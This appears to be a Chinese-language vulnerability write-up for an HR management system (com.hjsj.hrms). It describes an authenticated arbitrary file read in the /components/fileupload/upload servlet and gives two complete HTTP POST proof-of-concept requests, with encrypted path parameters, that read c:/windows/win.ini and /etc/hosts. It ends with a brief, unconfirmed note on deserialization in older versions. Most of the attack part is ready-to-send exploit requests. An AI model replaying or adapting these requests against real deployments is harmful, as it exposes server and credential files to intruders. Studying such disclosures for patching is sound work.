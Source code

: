  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVhZiaEIy3fhyPxrOV5dyhpS9bASKY1qrklGgjJxTx4d2EjkWa6Sribic3Q/640?wx_fmt=png&from=appmsg "")  
  
###### 后台任意文件读取-/components/fileupload/upload  
  
  
 com.hjsj.hrms.utils.components.fileupload.servlet.FileUploadServlet  
  
  
c:/windows/win.ini  
  
```
POST /components/fileupload/upload HTTP/2Host: xxxCookie: xxxContent-Length: 137Sec-Ch-Ua-Platform: "macOS"Accept-Language: zh-CN,zh;q=0.9Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"Sec-Ch-Ua-Mobile: ?0User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36Accept: application/json, text/plain, */*Content-Type: application/x-www-form-urlencodedOrigin: xxxSec-Fetch-Site: same-originSec-Fetch-Mode: corsSec-Fetch-Dest: emptyReferer: xxxAccept-Encoding: gzip, deflate, brPriority: u=4, ideleteflag=false&down=true&localname=aaa&path=Iy4ZOyMhERcKEEOGPKbbJgPAATTP3HJDPAATTPPAATTP3HJDPAATTP&filename=P2FN5PpfSGUPAATTP3HJDPAATTP
```  
  
/etc/hosts  
  
```
POST /components/fileupload/upload HTTP/1.1Host: xxxCookie: bosflag=hcm; JSESSIONID=65C5113D881DDF8CE43BC6DC7F2F995ASec-Ch-Ua-Platform: "macOS"Accept-Language: zh-CN,zh;q=0.9Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36Sec-Ch-Ua-Mobile: ?0Accept: */*Sec-Fetch-Site: same-originContent-Type: application/x-www-form-urlencodedSec-Fetch-Mode: no-corsSec-Fetch-Dest: scriptReferer: https://xxxAccept-Encoding: gzip, deflate, brPriority: u=1Connection: keep-aliveContent-Length: 114deleteflag=false&down=true&localname=sadfasf&path=P7oRbyobcGIPAATTP3HJDPAATTP&filename=rPYRZUSNAfMPAATTP3HJDPAATTP
```  
  
可以看到这里将参数解密后拼接到File中，读取路径可控，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVl8c7yLcurK9h4LZyKpIgHnql482IhIAbD9MlNEKltic1rPj9ic3KjoaQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVJ61ARfzYFTp38aUVaPe5vvfyxhNwI8ZsZibGbv5RetDGiblVZYs6lZSg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVBAWKnAhFkmM0xjVL0jtjNtxXuQYu5keB5hvg1xvgn3Pwz1DKF8LONQ/640?wx_fmt=png&from=appmsg "")  
  
  
加密文件读取路径和文件名，读取服务器的c:/windwos/win.ini，文件读取成功，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVhmicpNZGkEt6uLyShCs31XetAZCbnvQUc3CsDmVTGQibP1nI7sGc8AWg/640?wx_fmt=png&from=appmsg "")  
  
###### 后台漏洞（可能存在，未复现）  
  
  
 反序列化，低版本存在，高版本function_id提示找不到，  
  